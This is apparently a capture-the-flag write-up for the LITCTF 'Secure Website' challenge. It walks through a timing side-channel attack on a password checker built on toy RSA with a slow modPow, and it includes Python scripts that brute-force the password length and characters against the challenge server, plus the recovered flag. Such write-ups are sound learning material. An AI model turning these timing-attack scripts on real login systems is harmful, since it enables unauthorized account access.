


# Secure Website
## Description
> I have like so many things that I want to do, but I am not sure if I want others to see them yet D: I guess I will just hide all the super important stuff behind my super super fortified and secure Password Checker!
## Attachments
>[Site](http://litctf.live:31776/) [SecureWebsite.zip](src/)
---

## Poyo poyo
Upon visiting the site, we're greeted with a simple password form:



Trying out some random passwords, we see we get redirected to a rickroll. So let's open the source and see what's going on.

# Arr Ess Ayy
It seems we need to acquire the password to get the flag.
First we see that when we submit a password, it gets converted to an array of numbers using RSA, and we are redirected to `/verify`
```html
<script type="text/javascript">
        // Copying the setting from the server
        // This is like TOTALLY secure right?
        var p = 3217;
        var q = 6451;
        var e = 17;
        // Hmmm, RSA calculator says to set these values
        var N = p * q;
        var phi = (p - 1) * (q - 1);
        var d = 4880753;

        function submitForm() {
            var pwd = $("#password").val();
            var arr = [];
            for(var i = 0;i < pwd.length;++i) {
                arr.push(encryptRSA(pwd.charCodeAt(i)));
            }
            window.location.href = "/verify?password=" + arr.join();
            return;
        }

        function encryptRSA(num) {
            return modPow(num,e,N);
        }

        function modPow(base,exp,mod) {
            var result = 1;
            for(var i = 0;i < exp;++i) {
                result = (result * base) % mod;
            }
            return result;
        }
</script>
```
Then on the server side, the array of numbers is converted back to characters and finally compared with the password one letter at a time.
```js
app.get('/verify', (req, res) => {
	var pass = req.query.password;
	var start = performance.now();
	
	if(pass == undefined || typeof(pass) !== 'string' || !checkPassword(password,pass)) {
		res.writeHead(302, {'Location': 'about:blank'});
		var now = performance.now();
		// console.log(now - start);
		res.end();
		return;
	}
	res.render("secret",{flag: flag});
});
// passwordChecker.js
var p = 3217;
var q = 6451;
var e = 17;
// Hmmm, RSA calculator says to set these values
var N = p * q;
var phi = (p - 1) * (q - 1);
var d = 4880753;

function decryptRSA(num) {
	return modPow(num,d,N);
}

function checkPassword(password,pass) {
	var arr = pass.split(",");
	for(var i = 0;i < arr.length;++i) {
		arr[i] = parseInt(arr[i]);
	}
	if(arr.length != password.length) return false;

	for(var i = 0;i < arr.length;++i) {
		var currentChar = password.charCodeAt(i);
		var currentInput = decryptRSA(arr[i]);
		if(currentChar != currentInput) return false;
	}
	return true;
}

function modPow(base,exp,mod) {
	var result = 1;
	for(var i = 0;i < exp;++i) {
		result = (result * base) % mod;
	}
	return result;
}
```
While this implementation of RSA obviously isn't secure, it doesn't actually leak any information about the flag.
The checking process still occurs on the server, meaning we have no hints about the password or flag. So how do we attack
this problem?

# :clock9:
The only suspicious part of the code at first glance is the `modPow` function.
```js
function modPow(base,exp,mod) {
	var result = 1;
	for(var i = 0;i < exp;++i) {
		result = (result * base) % mod;
	}
	return result;
}
```
This function seems **extremely** inefficient. Especially considering that when decoding, `exp` is around 5 million.
Given that Javascript is obviously not some new language, there are definitely better built-in methods.

Obviously, an inefficient function also takes a relatively long time to compute.

This means that when we input a password, if this function ever gets called, we should see a significant increase in the time it takes 
for the server to respond.
## Attack
We can utilize something called a timing attack. When a character is decrypted using the RSA, it takes a really long time. 
If the character matches, then the next character will also take a long time to decrypt. 

This means for each position in the password, we can try every single possible character and 
find the one which takes the longest for the server to return a response, meaning that character is correct and the next one
was decrypted (this is what increases the time).

## Hindrance
There is just a small little bit before we go implementing our timing attack exploit. 
```js
    if(arr.length != password.length) return false;

	for(var i = 0;i < arr.length;++i) {
		var currentChar = password.charCodeAt(i);
		var currentInput = decryptRSA(arr[i]);
		if(currentChar != currentInput) return false;
	}
	return true;
```
If the length of our input is not equal to the password length, the decrypt function never gets called, meaning the server will
return a result at around the same time regardless of if the letters match.

To defeat this check, we first write an exploit to find the length of the password. Thankfully, the server will always call 
the decryption method for the first letter as long as the lengths match, even if it does not equal the password.
```py
import requests
import time
# adapted from astro's code b/c too lazy to rewrite mine
def findMax():
    url='http://litctf.live:31776/verify?password='
    maxes = []
    curMax = (0,)
    for i in range(30):
        payload = url + ("123123123123," * i)[:-1] # random big number
        then = time.time()
        r = requests.get(payload, allow_redirects=False)
        now = time.time()
        delta = now - then
        if delta > curMax[0]:
            curMax = (delta, i)
            print("New current max: ")
        print(delta, i, payload)
        maxes.append((delta, i))

    maxes.sort()
    print(maxes[::-1])
    print(curMax)
    return maxes
findMax()
```
Unfortunately, because of how the server is set up, we often get false positives. This set of false positives honestly tripped me
up at first because I couldn't seem to get the correct length.

Thankfully, all we have to do is run the script multiple times and see
what length has the lowest ranking on average
```python
ranks = {i:[] for i in range(1,20)}
for i in range(10):
    print("Round", i)
    ranking = findMax()
    for place, (delta, num) in enumerate(ranking):
        ranks[num].append(place)
for i in range(1, 20):
    print(i, ranks[i])
    print("Average:", sum(ranks[i]) / len(ranks[i]))
    print()
```
And, as it turns out, a length of 6 had an average much much lower than any other length, meaning it's probably the actual length of the password.

# Final timings
Now that we have the length of the password, it becomes a much more simple timing attack, all we need to do is pad our input to be the length of the password.
```python
import requests
import time


p = 3217
q = 6451
e = 17

N = p * q
phi = (p - 1) * (q - 1)
d = 4880753

def encryptRSA(m):
    return pow(m, e, N)

def submit(pwd):
    arr = []
    for i in range(len(pwd)):
        arr.append(encryptRSA(ord(pwd[i])))
    return ",".join(map(str, arr))

assert submit("12345678") == "8272582,17059160,20555739,5510519,9465679,18442920,18644618,3444445"

url = "http://litctf.live:31776/verify?password="
base = ""
import string
alphabet = string.ascii_letters + string.digits # password is alphanumeric, check main.js
while True:
    m = 0
    mi = 0    
    for letter in alphabet:
        password = base + letter
        password = password.ljust(6, "_")
        
        payload = submit(password)
        # print(url + payload)

        then = time.time()
        r = requests.get(url + payload, allow_redirects=False)
        # print(url + payload)
        now = time.time()

        print(password, round(now - then, 2))
        # print(now - then, i)
        # print(r.text)
        if now - then > m:
            m = now - then
            mi = letter

        # fail is r.status_code == 302
        print(r.status_code)
        if r.status_code == 200:
            print("Found:", password)
            exit()
        # print(i)
        # print()
    print(m, mi)
    base += mi
# Found: CxIj6p
```
After running this script for quite a while, we are able to get our final password: `CxIj6p`.
We can then login to the site and get our flag!



```
LITCTF{uwu_st3ph4ni3_i5_s0_0rz_0rz_0TZ}
```

## Notes
An interesting take on timing attacks using web as an interface. My only issue with this problem is the false positives when trying to find the
length of the password, which was pretty annoying because you have basically no idea what causes them. Otherwise most of the stuff is standard 
timing attacks implementation.

Overall still very fun! :+1: